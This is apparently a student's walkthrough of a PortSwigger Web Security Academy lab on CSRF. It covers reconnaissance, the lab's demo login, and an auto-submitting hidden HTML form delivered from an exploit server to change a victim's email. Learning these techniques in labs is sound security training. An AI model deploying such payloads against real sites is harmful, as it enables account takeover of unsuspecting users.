

Title: CSRF vulnerability with No Defenses<br>
Rank/Tier: Apprentice<br>
Author: Portswigger Web Security Academy<br>
Link: https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses

# CSRF vulnerability with no defenses
Provided with the following description:
>This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
You can log in to your own account using the following credentials: **```wiener:peter```**

Main take aways from the provided description:
- Credentials to an account: ```wiener:peter```.
- Email change function is vulnerable to CSRF.
- Goal: Create and store HTML that performs CSRF on a malicious server that can change the viewers email.

# Reconnaissance
Accessing the lab we're presented with a blog. Feel free to look through the various posts. The 2 areas of interest is  ```Go to exploit server``` and ```My account``` to reach the goal of the lab. 
- Rationale for ```Go to exploit server``` is the name. In the description it said to upload HTML to the exploit server.
- Rationale for ```My account``` is in the lab description about the change email functionality being vulnerable to CSRF. Which is most likely located in a page related to my account than a blog post.


## Exploit server
Clicking on the ```Go to exploit server``` button we're taken to a new web page with the description
> This is your server. You can use the form below to save an exploit, and send it to the victim.
>
> Please note that the victim uses Google Chrome. When you test your exploit against yourself, we recommend using Burp's Browser or Chrome.

URL to exploit server: 
```
https://exploit-0aac00e003b9867880722ace01de0089.exploit-server.net/exploit
```
Protocol:
```
HTTPS
```
File:
```
exploit
```
Head: 
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```
Body:
```
Hello, world!
```
4 options:
- Store (Save changes to exploit server)
- View exploit (View result of the exploit server impact on the lab website)
- Deliver exploit to victim (Perform the exploit)
- Access Log


## My account
Displayed a login page requesting a username and password. Insert the provided credentials.

Username:
```
wiener
```
Password:
```
peter
```


## Change account page
After successfully logging in we're taken to the My Account page which has the option to update email. From the original lab description the vulnerable functionality in this website is the email update suggesting this form to be our initial attack vector.


Viewed the pages source and the update email form is:
```
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```
Seds a POST request to ```view-source:https://0a3500ce033f86a480602b28006400dd.web-security-academy.net/my-account/change-email``` containing the newly requested email we want to change to. Doesn't seem to contain a CSRF token.

Lets attempt to change the email from ```wiener@normal-user.net``` to ```wiener2@normal-user.net``` and capture the request in burp suite.

It seems to use the session ID stored in a cookie


# Web exploitation of update email function through CSRF
⚠️Session ID may vary due to connection issues and needing to restart lab during this process.

In the body of our exploit server we can insert the following:
```
<form action="https://0a1000f60481354e8075944c0074006c.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="email" value="wiener3@normal-user.net" />
</form>
<script>
	document.forms[0].submit();
</script>
```
Explanation:
>Send the data to the destination stored in the attribute action. Which in this case is https://0a1000f60481354e8075944c0074006c.web-security-academy.net/my-account/change-email. Which we got from our recon. Using type hidden because we don't want the victim to see this input field. Copy and paste ```name="email" value=""``` from the original form and insert the email we want our account to change to in value.

Use ```document.form[0].submit()``` to execute the form when our exploit server is loaded by the victim/target. 

Explanation
>Does this by using javascript and accessing the document object and use the form[index] 0 which would be our malicious form and submit it.

Select store to save it on the exploit server.


Result:<br>


## End
Change the email in the body once more (Lab website doesn't allow changing of emails to emails already in use by another user). Then click ```store``` to save it to the exploit server. Once saved click ```Deliver exploit to victim```. If successful ```Congratulations, you solved the lab!``` should appear on the top.


